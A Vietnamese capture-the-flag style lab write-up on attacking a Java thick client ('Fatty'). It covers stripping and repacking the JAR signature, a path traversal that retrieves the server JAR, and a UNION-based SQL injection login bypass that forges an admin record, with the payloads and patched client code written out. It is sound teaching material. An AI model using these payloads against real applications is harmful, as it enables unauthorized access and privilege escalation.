






# Exploiting Web Vulnerabilities in Thick-Client Applications

## 1. Tổng quan

Ứng dụng Thick Client kiến trúc three-tier không cho client kết nối trực tiếp đến database, nhưng vẫn có thể mắc các lỗ hổng web như SQL Injection và Path Traversal do giao tiếp với server.

Trong lab, tester tìm thấy trên FTP anonymous các file:

- fatty-client.jar

- note.txt, note2.txt, note3.txt

Các ghi chú cho biết:

- Server đã chuyển từ port 8000 sang 1337.

- Client vẫn cần cập nhật port.

- Ứng dụng yêu cầu Java 8.

- Credentials: `qtc` / `clarabibi`.

## 2. Phân tích và sửa cấu hình Thick Client

Xác định port kết nối

Chạy `fatty-client.jar` và đăng nhập nhưng gặp lỗi `Connection Error!`.



Dùng Wireshark kiểm tra, phát hiện client kết nối tới `server.fatty.htb` qua port 8000.



Thêm hostname vào file `hosts`:

```cmd
echo 10.10.10.174 server.fatty.htb >> C:\Windows\System32\drivers\etc\hosts
```

Giải nén JAR và tìm port 8000:

```powershell
C:\> ls fatty-client\ -recurse | Select-String "8000" | Select Path, LineNumber | Format-List

Path       : C:\Users\cybervaca\Desktop\fatty-client\beans.xml
LineNumber : 13
```

Kết quả cho thấy cấu hình nằm trong `beans.xml`:

```powershell
C:\> cat fatty-client\beans.xml

<SNIP>
<!-- Here we have an constructor based injection, where Spring injects required arguments inside the
         constructor function. -->
   <bean id="connectionContext" class = "htb.fatty.shared.connection.ConnectionContext">
      <constructor-arg index="0" value = "server.fatty.htb"/>
      <constructor-arg index="1" value = "8000"/>
   </bean>

<!-- The next to beans use setter injection. For this kind of injection one needs to define an default
constructor for the object (no arguments) and one needs to define setter methods for the properties. -->
   <bean id="trustedFatty" class = "htb.fatty.shared.connection.TrustedFatty">
      <property name = "keystorePath" value = "fatty.p12"/>
   </bean>

   <bean id="secretHolder" class = "htb.fatty.shared.connection.SecretHolder">
      <property name = "secret" value = "clarabibiclarabibiclarabibi"/>
   </bean>
<SNIP>
```

Đổi port thành 1337. Đồng thời phát hiện secret hardcode `clarabibiclarabibiclarabibi`

### Xử lý chữ ký JAR

Sau khi sửa, ứng dụng lỗi do SHA-256 digest không khớp. Nguyên nhân là JAR đã được ký và kiểm tra hash các file.

```
C:\> cat fatty-client\META-INF\MANIFEST.MF

Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Sealed: True
Created-By: Apache Maven 3.3.9
Build-Jdk: 1.8.0_232
Main-Class: htb.fatty.client.run.Starter

Name: META-INF/maven/org.slf4j/slf4j-log4j12/pom.properties
SHA-256-Digest: miPHJ+Y50c4aqIcmsko7Z/hdj03XNhHx3C/pZbEp4Cw=

Name: org/springframework/jmx/export/metadata/ManagedOperationParamete
 r.class
SHA-256-Digest: h+JmFJqj0MnFbvd+LoFffOtcKcpbf/FD9h2AMOntcgw=
<SNIP>
```

Để chạy bản đã chỉnh sửa trong lab:

1. Xóa các hash trong META-INF/MANIFEST.MF.

2. Xóa 1.RSA và 1.SF trong META-INF.

3. Đảm bảo manifest kết thúc bằng dòng mới.

4. Đóng gói lại JAR:

```txt
Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Sealed: True
Created-By: Apache Maven 3.3.9
Build-Jdk: 1.8.0_232
Main-Class: htb.fatty.client.run.Starter
```

```powershell
C:\> cd .\fatty-client
C:\> jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
```

Đăng nhập lại bằng `qtc` / `clarabibi` thành công.

## 3. Foothold và khám phá chức năng

Trong `Profile` → `Whoami`, user `qtc` có role `user`, nên không sử dụng được các chức năng trong `ServerStatus`.



Trong `FileBrowser`, tìm thấy:

- `security.txt`: ghi chú về các vấn đề bảo mật chưa được khắc phục.

- `dave.txt`: cho biết các tài khoản admin đã bị xóa khỏi database và login có timeout nhằm giảm nguy cơ time-based SQL Injection.



Điều này gợi ý cần kiểm tra các chức năng đọc file và cơ chế phân quyền.

## 4. Path Traversal

Thử đọc file: `../../../../../../etc/passwd`

Ứng dụng báo lỗi do server lọc ký tự `/`.



### Phân tích source code

Dùng JD-GUI decompile JAR, tìm hàm `showFiles()` trong `Invoker.java`.

Hàm này nhận tên thư mục từ client rồi gửi lên server qua `sendAndRecv()`.

Trong `ClientGuiTest.java`, chức năng Config gọi:

```java
ClientGuiTest.this.currentFolder = "configs";
response = ClientGuiTest.this.invoker.showFiles("configs");
```

Thay `configs` bằng `..`, sau đó compile lại class và đóng gói JAR mới.

Khi truy cập `FileBrowser` → `Config`, ứng dụng hiển thị nội dung thư mục cha, bao gồm:

```
fatty-server.jar
start.sh
```



### Thu thập server JAR

Tiếp tục sửa hàm `open()` trong `Invoker.java` để ghi nội dung response ra file cục bộ, sau đó rebuild client.

Dùng chức năng FileBrowser để tải `fatty-server.jar` về máy và phân tích.

Kết quả: Path Traversal xuất phát từ việc client cho phép thay đổi tên thư mục gửi lên server, trong khi server không kiểm soát đường dẫn đầy đủ một cách an toàn.

## 5. SQL Injection và bypass đăng nhập

Phát hiện SQL Injection

Decompile fatty-server.jar, tìm checkLogin() trong FattyDbSession.class.

Query sử dụng trực tiếp username:

```java
rs = stmt.executeQuery(
    "SELECT id,username,email,password,role FROM users WHERE username='" 
    + user.getUsername() + "'"
);
```

Username không được sanitize hoặc truyền qua prepared statement, dẫn đến SQL Injection.

Nhập username `qtc'` gây lỗi SQL. Có thể đọc error-log.txt để xác nhận lỗi cú pháp.

### Vì sao payload ' or '1'='1 không đăng nhập được?

Client xử lý password theo công thức:

`SHA256(username + password + "clarabibimakeseverythingsecure")`

Server lấy user từ database rồi so sánh password hash. Vì vậy, dù SQL Injection trả về một user hợp lệ, hash do client gửi lên vẫn không khớp password của user đó.

### Khai thác bằng UNION

Có thể dùng UNION SELECT để tạo bản ghi giả với username, password và role do attacker kiểm soát.

Payload username:

`test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin`

Để bypass kiểm tra hash, sửa client để gửi password dạng plaintext thay vì tự hash:

```java
public void setPassword(String password) {
    this.password = password;
}
```

Sau đó rebuild JAR và sử dụng:

```
Username: abc' UNION SELECT 1,'abc','a@b.com','abc','admin
Password: abc
```

Server xử lý query tương đương:

```sql
SELECT id,username,email,password,role
FROM users
WHERE username='abc'
UNION SELECT 1,'abc','a@b.com','abc','admin'
```

Bản ghi giả trả về:

Username: abc

Password: abc

Role: admin

Password client gửi lên trùng với password trong kết quả UNION, nên kiểm tra đăng nhập thành công và có quyền admin.